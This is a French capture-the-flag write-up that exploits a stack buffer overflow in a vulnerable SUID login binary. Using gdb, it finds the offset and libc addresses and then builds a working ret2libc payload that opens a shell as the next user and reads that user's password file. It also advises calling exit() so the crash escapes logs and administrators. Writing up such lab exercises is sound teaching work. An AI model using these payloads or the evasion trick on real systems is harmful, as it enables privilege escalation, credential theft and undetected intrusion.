 Je commence par analyser mon environnement :

```bash
$ id && pwd && ls -la
uid=1001(level01) gid=1001(level01) groups=1001(level01),100(users)
/home/users/level01
total 17
dr-xr-x---+ 1 level01 level01   80 Sep 13  2016 .
dr-x--x--x  1 root    root     260 Oct  2  2016 ..
-rw-r--r--  1 level01 level01  220 Sep 10  2016 .bash_logout
lrwxrwxrwx  1 root    root       7 Sep 13  2016 .bash_profile -> .bashrc
-rw-r--r--  1 level01 level01 3533 Sep 10  2016 .bashrc
-rwsr-s---+ 1 level02 users   7360 Sep 10  2016 level01
-rw-r--r--+ 1 level01 level01   41 Oct 19  2016 .pass
-rw-r--r--  1 level01 level01  675 Sep 10  2016 .profile
```

Je trouve un binaire `level01`, que je tente d'éxecuter :

```bash
$ ./level01
********* ADMIN LOGIN PROMPT *********
Enter Username: pomme
verifying username....

nope, incorrect username...

```

Je tente de décompiler le binaire avec [Dogbolt](https://dogbolt.org/?id=9d6ffadf-606a-453b-98f3-bd2653ca19f0#Hex-Rays=120) :

```c
char a_user_name[100]; // idb

int verify_user_name()
{
  puts("verifying username....\n");
  return memcmp(a_user_name, "dat_wil", 7);
}

int verify_user_pass(const void *a1)
{
  return memcmp(a1, "admin", 5);
}

int main(int argc, const char **argv)
{
  char string[64]; // <-------------------------1 64 bytes buffer declared
  int boolean; // [esp+5Ch] [ebp-Ch]

  memset(string, 0, sizeof(string));

  boolean = 0;

  puts("********* ADMIN LOGIN PROMPT *********");
  printf("Enter Username: ");
  fgets(a_user_name, 256, stdin);

  boolean = verify_user_name();
  if ( boolean != 0 )
  {
    puts("nope, incorrect username...\n");
  }
  else
  {
    puts("Enter Password: ");
    fgets(string, 100, stdin); // <-------------2 64 bytes buffer filled with 100 bytes of user input (= overflow)

    boolean = verify_user_pass(s);
    puts("nope, incorrect password...\n");
  }
  return 1; // <--------------------------------3 Ret2Libc exploit using the buffer overflow to point to system("/bin/sh")
}
```

En me basant sur la décompilation des deux fonctions `verify_user_name()` et `verify_user_pass()`, tout semble indiquer que le user_name doit être `dat_wil` et le mot de passe `admin`.

Naturellement, j'essaye :

```bash
$ ./level01
********* ADMIN LOGIN PROMPT *********
Enter Username: dat_wil
verifying username....

Enter Password:
admin
nope, incorrect password...

```

Sans succès, je retourne sur le code décompilé et réalise que de toute manière, le code ne fait rien et ne peut que fail. Il me faut en fait exploiter une vulnérabilité afin de lancer du code arbitraire.

En analysant le retour de `Dogbolt` je note l'incohérence suivante :

```c
char string[64];
...
fgets(string, 100, stdin);
```

Ici, 64 bytes sont alloués à `string` mais `fgets()` va en écrire 100.

Cela représente donc un buffer overflow, que je vais pouvoir exploiter avec une technique similaire utilisée dans le projet `Rainfall` appellée `Ret2Libc` (voir [ici](https://www.ired.team/offensive-security/code-injection-process-injection/binary-exploitation/return-to-libc-ret2libc)).

Cela implique d'overflow le buffer ici afin de ré-écrire la mémoire adjacente, et donc de la stack, et lui faire appeller des adresses de la `libc`, ici, spécifiquement celle de la fonction `system()` laquelle recevra l'argument `/bin/sh`. 

Pour utiliser cet exploit, je dois commencer par trouver de combien de bytes le buffer doit il overflow pour atteindre l'adresse de retour de `main()` afin de la remplacer par l'adresse de `system()`.

Pour cela, j'utilise `gdb` :

```h
$ gdb ./level01
Reading symbols from /home/users/level01/level01...(no debugging symbols found)...done.

(gdb) disas main
Dump of assembler code for function main:
   0x080484d0 <+0>:     push   %ebp
   0x080484d1 <+1>:     mov    %esp,%ebp
   0x080484d3 <+3>:     push   %edi
   0x080484d4 <+4>:     push   %ebx
   0x080484d5 <+5>:     and    $0xfffffff0,%esp
   0x080484d8 <+8>:     sub    $0x60,%esp
   0x080484db <+11>:    lea    0x1c(%esp),%ebx <----------- buffer declared here
    ...
   0x080485aa <+218>:   mov    $0x0,%eax
   0x080485af <+223>:   lea    -0x8(%ebp),%esp <----------- break here before cleanup
   0x080485b2 <+226>:   pop    %ebx
   0x080485b3 <+227>:   pop    %edi
   0x080485b4 <+228>:   pop    %ebp
   0x080485b5 <+229>:   ret
End of assembler dump.

(gdb) b *main+223
Breakpoint 1 at 0x80485af

(gdb) r
Starting program: /home/users/level01/level01
********* ADMIN LOGIN PROMPT *********
Enter Username: dab
verifying username....

nope, incorrect username...


Breakpoint 1, 0x080485af in main ()

(gdb) info registers
...
esp            0xffffd6b0       0xffffd6b0
ebp            0xffffd718       0xffffd718
...
```

Je peux soustraire `esp` d'`ebp` : `0xffffd718 - 0xffffd6b0 = 108` bytes, auquel je soustrais le début de `buffer` dans le stack :

```h
   0x080484d8 <+8>:     sub    $0x60,%esp
   0x080484db <+11>:    lea    0x1c(%esp),%ebx
```

Soit `108 - 28 = 80` bytes avant d'overflow sur la stack et pouvoir ré-écrire dessus.

Je vais donc créé un payload avec la structure suivante :

```h
padding + adresse de system() + adresse de exit() + adresse de "/bin/sh"
```

J'inclus l'adresse de `exit()` après celle de `system()` afin que le binaire s'exit sans crash. Cette étape est optionnelle mais évite que cela soit loggé par le système et que l'exploit soit reperé par un administrateur, par exemple.

Pour trouver l'adresse de `exit()`, `system()` et `/bin/sh`, j'utilise `gdb` :

```h
(gdb) print system
$1 = {<text variable, no debug info>} 0xf7e6aed0 <system>

(gdb) print exit
$2 = {<text variable, no debug info>} 0xf7e5eb70 <exit>

(gdb) info proc mappings
process 1824
Mapped address spaces:

        Start Addr   End Addr       Size     Offset objfile
         0x8048000  0x8049000     0x1000        0x0 /home/users/level01/level01
         0x8049000  0x804a000     0x1000        0x0 /home/users/level01/level01
         0x804a000  0x804b000     0x1000     0x1000 /home/users/level01/level01
        0xf7e2b000 0xf7e2c000     0x1000        0x0
        0xf7e2c000 0xf7fcc000   0x1a0000        0x0 /lib32/libc-2.15.so <--- libc
        0xf7fcc000 0xf7fcd000     0x1000   0x1a0000 /lib32/libc-2.15.so
        0xf7fcd000 0xf7fcf000     0x2000   0x1a0000 /lib32/libc-2.15.so
        0xf7fcf000 0xf7fd0000     0x1000   0x1a2000 /lib32/libc-2.15.so <--- end
        0xf7fd0000 0xf7fd4000     0x4000        0x0
        0xf7fda000 0xf7fdb000     0x1000        0x0
        0xf7fdb000 0xf7fdc000     0x1000        0x0 [vdso]
        0xf7fdc000 0xf7ffc000    0x20000        0x0 /lib32/ld-2.15.so
        0xf7ffc000 0xf7ffd000     0x1000    0x1f000 /lib32/ld-2.15.so
        0xf7ffd000 0xf7ffe000     0x1000    0x20000 /lib32/ld-2.15.so
        0xfffdd000 0xffffe000    0x21000        0x0 [stack]

(gdb) find 0xf7e2c000, 0xf7fd0000, "/bin/sh"
0xf7f897ec
1 pattern found.
```

Avec ces 3 adresses, je peux construire mon payload :

```python
python -c 'print("dat_wil"); print("\x90" * 80 + "\xf7\xe6\xae\xd0"[::-1] + "\xf7\xe5\xeb\x70"[::-1] + "\xf7\xf8\x97\xec"[::-1])'
```

J'inclus le bon username (`dat_wil`) afin de passer le premier if, ainsi que les 3 adresses récupérées plus haut, que j'inverse en Python pour respecter la structure endian de la mémoire.

(`gdb` me les display en Big Endian, mais l'architecture ici nécessite des Small Endian)

J'essaye mon payload :

```bash
$ (python -c 'print("dat_wil"); print("\x90" * 80 + "\xf7\xe6\xae\xd0"[::-1] + "\xf7\xe5\xeb\x70"[::-1] + "\xf7\xf8\x97\xec"[::-1])'; cat) | ./level01
********* ADMIN LOGIN PROMPT *********
Enter Username: verifying username....

Enter Password:
nope, incorrect password...

whoami
level02
cat /home/users/level02/.pass
PwBLgNa8p8MTKW57S7zxVAQCxnCpV8JqTTs9XEBv
```

Et je récupère correctement le flag.
